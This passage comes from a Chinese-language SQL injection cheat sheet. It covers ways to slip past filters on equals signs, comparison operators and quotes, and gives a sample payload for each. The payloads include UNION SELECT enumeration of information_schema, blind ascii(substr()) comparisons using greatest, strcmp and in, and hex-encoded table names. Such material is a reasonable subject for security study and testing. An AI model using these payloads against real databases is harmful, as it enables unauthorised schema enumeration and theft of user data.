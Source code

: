 and = &amp;&amp;

or = ||

xor = |

not = !

### **8.****过滤等号=绕过**

1）不加通配符的like执行的效果和=一致，所以可以用来绕过。

eg：UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name like "users"

2）rlike:模糊匹配，只要字段的值中存在要查找的 部分 就会被选择出来，用来取代=时，rlike的用法和上面的like一样，没有通配符效果和=一样

eg：UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name rlike "users"

3）regexp:MySQL中使用 REGEXP 操作符来进行正则表达式匹配

eg：UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name regexp "users"

4）使用大小于号来绕过

eg：select * from users where id &gt; 1 and id &lt; 3

5）&lt;&gt; 等价于 !=，所以在前面再加一个!结果就是等号了

eg：select * from users where !(id &lt;&gt; 1)

### **9.****过滤大小于号绕过**

在sql盲注中，一般使用大小于号来判断ascii码值的大小来达到爆破的效果。

1）greatest(n1, n2, n3…):返回n中的最大值

eg：select * from users where id = 1 and greatest(ascii(substr(username,1,1)),1)=116

2）least(n1,n2,n3…):返回n中的最小值，与上同理。

3）strcmp(str1,str2):若所有的字符串均相同，则返回0，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1

eg：select * from users where id = 1 and strcmp(ascii(substr(username,1,1)),117)

4）in关键字

eg：select * from users where id = 1 and substr(username,1,1) in ('t')

5）between a and b:范围在a-b之间，包括a、b。

eg：select * from users where id between 1 and 2

select * from users where id between 1 and 1

### **10****过滤引号绕过**

1）使用十六进制

eg：UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name=0x61645F6C696E6B
